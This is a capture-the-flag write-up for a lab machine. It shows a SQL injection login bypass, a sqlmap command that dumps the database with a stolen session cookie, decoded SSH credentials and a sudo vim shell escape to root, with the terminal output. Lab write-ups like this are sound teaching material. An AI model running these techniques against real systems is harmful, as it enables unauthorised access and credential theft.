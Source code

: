 

# Step 1

Find page http://0.0.0.0/admin.php

The login form is vulnerable to SQL Injection:

```
username: ' OR 1=1;
pass: toto
```

To see the login succeed, you must refresh page twice.

First flag : **${CEH_Step1_SQLi}**

# Step 2

When choosing a server in the list, the url change with the ID of server.

To be able to test it with `sqlmap` we need to get the `PHPSESSID` cookie:

```
right click on "inspect"
go to "application" tab
then "cookies" menu
and select the value for PHPSESSID
```

Now we can set our `sqlmap` command:

```bash
sqlmap -u "http://0.0.0.0/admin.php?server=0" --cookie="PHPSESSID=lnmqqj5141kvp40dvq9a0bkun3" --dbms=mysql --dump
```

Tables and columns are dumped and we can get credentials of servers.

A table have a flag name: **${EHC_BetweenUS}**

# Step 3

In table `servers` the `WEBSRV3` credentials are the only good one.

`creds` are encoded using base64, when decoded:

```yml
pvexuser3ro:J3Sape1R00t
```

We can then log in via SSH:

```bash
ssh pvexuser3ro@0.0.0.0 -p 2222
```


```bash
> ls -al
.
..
flag

> cat flag
real flag has been move to /root

> cat /root/flag
cat: /root/flag: Permission denied

> sudo cat /root/flag
Sorry, user pvexuser3ro is not allowed to execute '/bin/cat /root/flag' as root on 0.0.0.0.

> sudo -l
User pvexuser3ro may run the following commands on c853cdd9be0d:
    (root) NOPASSWD: /usr/bin/vim

> sudo vim -c '!sh'
> whoami
root

> cat /root/flag
${EHC_ChampionDuSudo}

```

Last flag: **${EHC_ChampionDuSudo}**

---

THE END
